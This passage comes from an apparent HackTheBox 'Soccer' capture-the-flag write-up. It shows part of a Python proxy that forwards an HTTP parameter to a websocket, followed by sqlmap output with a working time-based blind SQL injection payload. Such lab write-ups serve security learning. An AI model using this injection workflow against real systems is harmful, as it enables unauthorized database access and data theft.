 ```python
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',1337))
except KeyboardInterrupt:
	pass

``` 

This script has been taken from [here](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html). Kudos to `rayhan0x01` for his amazing explanation.

This script just creates a HTTP server and takes the value of `id` parameter in each request and passes it to given websocket as a message.

Now we can use `sqlmap` on this proxy, which is basically the same as running `sqlmap` on the websocket.

Running the proxy:

```bash

┌──(n3hal㉿Universe7)-[~/…/hackthebox/soccer/web/exploits]
└─$ python middleware.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:1337/?id=*

```

Running `sqlmap`:

```bash

┌──(n3hal㉿Universe7)-[~/…/hackthebox/soccer/web/exploits]
└─$ sqlmap -u "http://localhost:1337/?id=1" --dbms mysql --batch  
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:31:16 /2022-12-29/

[04:31:18] [INFO] testing connection to the target URL
[04:31:19] [WARNING] turning off pre-connect mechanism because of incompatible server ('SimpleHTTP/0.6 Python/3.10.8')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 6779 FROM (SELECT(SLEEP(5)))zdVp)
---
[04:31:19] [INFO] testing MySQL
```